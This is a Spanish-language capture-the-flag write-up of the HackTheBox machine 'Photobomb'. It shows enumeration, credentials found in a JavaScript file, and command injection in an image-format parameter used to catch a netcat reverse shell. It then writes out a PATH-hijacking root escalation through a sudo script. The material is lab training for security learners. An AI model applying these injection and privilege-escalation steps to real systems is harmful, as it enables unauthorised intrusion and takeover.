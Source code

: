 ```yaml
---
title: Photobomb Writeup
author: L4nder
date: 2023-02-06
img_path: /assets/img/HTB/photobomb
categories: [Writeup, HTB]
tags: [HackTheBox, Writeup, RCE, Easy, Path Hijacking, Sudo]
image:
  path: /photobomb.png
  width: 800
  height: 500
  alt: Photobomb
---
```


Bueeeno, el dia de hoy nos haremos una maquina de dificultad **FACIL**!, de hecho, fue mi primera máquina activa que hice xD, le tengo nostalgia a la máquina.

Bueno, en esta máquina tocaremos los siguientes puntos:
- Virtual Hosting
- Code Injection (RCE)
- Y un Path Hijacking para la escalada de privilegios!

## Enumeración

Primero vamos a comprobar que la máquina esté encendida con una traza ICMP (ping).

```plaintext
❯ ping -c 1 10.10.11.182
PING 10.10.11.182 (10.10.11.182) 56(84) bytes of data.
64 bytes from 10.10.11.182: icmp_seq=1 ttl=63 time=34.4 ms

--- 10.10.11.182 ping statistics --- 
1 packet transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 36.212/36.212/36.212/0.000 ms
```

En el output del comando podemos ver el parámetro `ttl`, el cual indica que es equivalente a `63`, nos podemos guiar del siguiente esquema para diferenciar a que sistema operativo nos estamos enfrentando.

```plaintext
TTL(64) -> GNU/Linux
TTL(128) -> Windows
```

En nuestro caso, el TTL se aproxima a 64, pero sin serlo, esto pasa porque en plataformas como HackTheBox o TryHackMe la traza ICMP pasa por un nodo intermediario, el cual le resta 1 punto al TTL.

Bueno, como en todas las máquinas, tendremos que comenzar escaneando todos los puertos, primeramente escanearemos TCP.

```plaintext
❯ nmap 10.10.11.182
Nmap scan report for photobomb.htb (10.10.11.182)
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
```

Al hacer un curl a la web y fijarnos en las cabeceras, podemos observar que nos redirige a `photobomb.htb`, este termino se le conoce como **VIRTUAL HOSTING**, ya que en este caso no podemos acceder a la web por la IP.

```plaintext
❯ curl -s 10.10.11.182 -I | grep "Location"
Location: http://photobomb.htb/
```

Bueno, tendremos que añadir el dominio `photobomb.htb` al /etc/hosts

```plaintext
❯ echo "10.10.11.182 photoboomb.htb" | sudo tee -a /etc/hosts
```

Si nos fijamos en el código fuente encontramos un archivo .js con el siguiente contenido

```shell
❯ curl -s -X GET http://photobomb.htb/photobomb.js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

Si nos fijamos bien, encontramos la url `http://pH0t0:b0Mb!@photobomb.htb/printer`, al abrirla nos autentica automaticamente, y podemos ver lo siguiente

<img src="Web1.png">

En la parte de abajo podemos descargar las imagenes en formato png y jpg.

<img src="descargar.png">

## Explotación

Interceptando la petición podemos observar que para elegir el formato de la imagen se puede cambiar aquí.

<img src="burp.png">

Nos podemos imaginar que la web usa un binario para la conversión del formato de la imagen, si este es el caso, podemos concatenarle un comando.

Así que crearemos una reverse shell con nc y mkfifo en [Reverse Shells](https://revshells.com), recordad que esta ha de ser url encodeada.

<img src="rev.png">
<img src="rev2.png">

Para poner el cmoando despues del png pnemos un `;` y nuestr oneliner

<img src="burprev.png">

Al darle a forward recibimos la shell y conseguimos la primera flag!

```plaintext
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.182] 44954
wizard@photobomb:~/photobomb$ id
id
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
wizard@photobomb:~/photobomb$ hostname -I
hostname -I
10.10.11.182 dead:beef::250:56ff:feb9:86ca
wizard@photobomb:~/photobomb$ cat ../user
cat ../user.txt
638**************************393
wizard@photobomb:~/photobomb$
```

## Escalada de Privilegios

Al mirar los privilegios que tenemos, observamos que podemos ejecutar un script, pero además tenemos la capacidad de setear variables de entorno

```plaintext
wizard@photobomb:~$ sudo -l
Matching Defaults entries for wizard on photobomb:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
(root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:~$
```

Mirando el script podemos ver que usa find de manera relativa y no con su ruta absoluta.

```plaintext
wizard@photobomb:~$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb
# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
/bin/cat log/photobomb.log > log/photobomb.log.old
/usr/bin/truncate -s0 log/photobomb.log
fi
# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
wizard@photobomb:~$
```

Nos podemos aprovechar de nuestro privilegio de poder setear variables de entorno como el path para que nos ejecute el coamndo find personalizado, y bajo el contexto de root nuestro comando find personalizado se ejecutará como root

Para esto tendremos que crear un archivo find que tenga bash en su interior y le daremos permisos de ejecución.

```plaintext
wizard@photobomb:~$ echo bash > find
wizard@photobomb:~$ chmod +x find
wizard@photobomb:~$
```

Ahora cambiamos la variable path y ejecutamos el script, consiguiendo una consola como root

```plaintext
wizard@photobomb:~$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# id
uid=0(root) gid=0(root) groups=0(root)
root@photobomb:/home/wizard/photobomb# hostname -I
10.10.11.182 dead:beef::250:56ff:feb9:86ca
root@photobomb:/home/wizard/photobomb# cat /root/root.txt
0ad********************058
root@photobomb:/home/wizard/photobomb#
```

Bueno, este ha sido mi primer writeup! Espero que os haya gustado!